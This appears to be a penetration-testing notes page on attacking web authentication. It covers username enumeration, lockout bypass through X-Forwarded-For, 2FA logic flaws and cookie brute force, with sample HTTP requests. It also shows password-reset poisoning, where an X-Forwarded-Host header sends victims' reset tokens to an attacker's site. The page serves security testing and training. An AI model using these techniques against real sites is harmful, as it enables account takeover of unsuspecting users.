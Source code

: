 ```yaml
---
title: "Authentication"
weight: 2
---
```


# Authentication

## Usernames enumeration

Test in every features that interact with user account. E.g. login, password recovery.

**Default username**

```sh
admin
administrator
firstname.lastname@somecompany.com
```

***

**Regisitration form**&#x20;

Create account and see if there's error like "account already exists".

***

**Comparing responses**

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{{< hint style=tips >}}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{{< /hint >}}

***

**Account locking**

Try 3/5 login. If the account is locked, it could mean that there is.

***

**Response times**

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## Passwords

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## Account locking

**Guess password with locked account**&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

***

**IP blocked bypass**

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

***

**With password change**

See if you can change the password of an arbitrary user. E.g. look for a hidden username paramer (control it). Brute-force password when you enter your current password.

{{< hint style=tips >}}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{{< /hint >}}

## 2FA

* **Brute-force OTP**
* **Bypassing two-factor authentication**&#x20;

Check if you can directly skip to "logged-in" pages.

* **Flawed logic**

```http
# 1 step - (REQUEST) Normal login with attacker account
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]

username=attacker&password=qwerty
```

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
[...]

verification-code=123456
```

## Remember me option

* **Study your cookie and deduce how it is generated -** Sometimes this cookie is hashed or encoded (e.g. base64)
* **Brute-force other users' cookies to gain access to their accounts**

## Password reset

**Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

***

**Resetting passwords using a URL (static token)**

Poor implementation can use guessable parameter: E.g. `http://vulnerable-website.com/reset-password?user=victim-user`

***

**Steal another user's token (for dynamic token)**

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
